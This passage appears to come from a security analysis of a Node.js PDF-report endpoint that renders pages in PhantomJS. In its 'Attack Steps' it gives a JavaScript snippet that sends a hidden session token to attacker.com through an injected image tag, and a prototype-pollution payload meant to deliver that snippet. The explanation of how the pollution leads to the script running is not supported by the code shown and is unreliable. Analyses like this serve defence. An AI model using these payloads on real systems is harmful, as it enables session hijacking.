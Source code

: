 ```javascript
    }, userData);

    const pdfBuffer = await page.renderBuffer('pdf');
    await instance.exit();

    res.setHeader('Content-Type', 'application/pdf');
    res.send(pdfBuffer);
});

function generateReportTemplate(userData) {
    return `
        <html>
        <head><title>User Report</title></head>
        <body>
            <h1>User Report</h1>
            <p>Name: <span id="userName"></span></p>
            <p>Email: <span id="userEmail"></span></p>
            <input type="hidden" id="sessionToken" value="">
        </body>
        </html>
    `;
}
```

**Attack Steps:**

1.  **Craft Malicious JS (Enabling Factor):** The attacker crafts JavaScript code to extract the session token:

    ```javascript
    const exfiltrationScript = `
        var token = document.getElementById('sessionToken').value;
        var img = document.createElement('img');
        img.src = 'https://attacker.com/log?token=' + encodeURIComponent(token);
        document.body.appendChild(img);
    `;
    ```
    This code retrieves the session token, constructs an image tag with a URL pointing to the attacker's server, and appends the image to the DOM.  This causes the browser (PhantomJS in this case) to make a request to the attacker's server, leaking the token in the query string.

2.  **Manipulate DOM to Extract Data:** The attacker needs to inject this script.  They could try to directly inject it into the `userId` parameter, but let's assume the application properly sanitizes that input to prevent direct code injection.

3.  **Indirect Injection via userData:** The attacker realizes that the `userData` object is passed directly to `page.evaluate()`.  They craft a malicious `userData` object:

    ```javascript
    const maliciousUserData = {
      name: "John Doe",
      email: "john.doe@example.com",
      sessionToken: "legit_token", // Provide a seemingly legitimate token
      // Inject the malicious script as a property
      __proto__: {
          polluted: exfiltrationScript
      }
    };
    ```
    This uses prototype pollution. Because `userData` is passed as an argument to the `page.evaluate` function, the attacker can inject their script by adding it as a property to the object.
